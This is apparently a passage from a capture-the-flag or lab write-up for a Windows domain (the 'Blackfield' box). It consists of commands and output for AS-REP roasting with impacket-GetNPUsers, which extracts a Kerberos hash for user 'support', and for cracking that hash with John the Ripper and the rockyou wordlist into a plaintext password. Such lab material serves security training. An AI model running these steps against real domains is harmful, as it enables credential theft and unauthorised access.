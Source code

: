```
```

`impacket-GetNPUsers -dc-ip 10.10.10.192 'blackfield.local/guest' -no-pass -usersfile ./domain_users.txt -format john -outputfile ./asrep_hash.txt`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$support@BLACKFIELD.LOCAL:99424a239c6d4592ed432746c1b62d2c$6b5250f2bab17ae9b30daae7be7d48a2eae628f0d61ec5cf7f394324562747293d4f7bef1070596fa01b33e958e6dbec36c42e50b558997df197d5d1cb777fee31aebc119e21552b07cb7eab8d2dd7c3c52925e6a5059b77d412ed1c24091028da307e5ebaa2dccb84920e943bfd5d270d74abe5b50f252a3eb10b6bdb68483a21aec9c7fcd410f1b1e3555bcf9e411bb631d528cb6d2d60e7451ab159f0b14374782d81f5bbe13e9d9de5f61558de0e218c270360a6a06bd9eefd34c9da931bd7e80e6f175545decb672f82d9bd37b724d81c323902fcad214249e192286d13a18b7c0ae08c0a7ab1c1886968d0397aaba2289d
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lydericlefebvre doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC02$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC03$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC04$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC05$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC06$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC07$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC08$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC09$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC10$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC11$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC12$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User PC13$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-WEB$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-FILE$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-EXCHANGE$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-INTRANET$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```

`cat ./asrep_hash.txt`:
```
$krb5asrep$support@BLACKFIELD.LOCAL:99424a239c6d4592ed432746c1b62d2c$6b5250f2bab17ae9b30daae7be7d48a2eae628f0d61ec5cf7f394324562747293d4f7bef1070596fa01b33e958e6dbec36c42e50b558997df197d5d1cb777fee31aebc119e21552b07cb7eab8d2dd7c3c52925e6a5059b77d412ed1c24091028da307e5ebaa2dccb84920e943bfd5d270d74abe5b50f252a3eb10b6bdb68483a21aec9c7fcd410f1b1e3555bcf9e411bb631d528cb6d2d60e7451ab159f0b14374782d81f5bbe13e9d9de5f61558de0e218c270360a6a06bd9eefd34c9da931bd7e80e6f175545decb672f82d9bd37b724d81c323902fcad214249e192286d13a18b7c0ae08c0a7ab1c1886968d0397aaba2289d
```

`john --wordlist=/usr/share/wordlists/rockyou.txt ./asrep_hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$support@BLACKFIELD.LOCAL) ←  
1g 0:00:00:09 DONE (2024-11-10 09:06) 0.1075g/s 1541Kp/s 1541Kc/s 1541KC/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
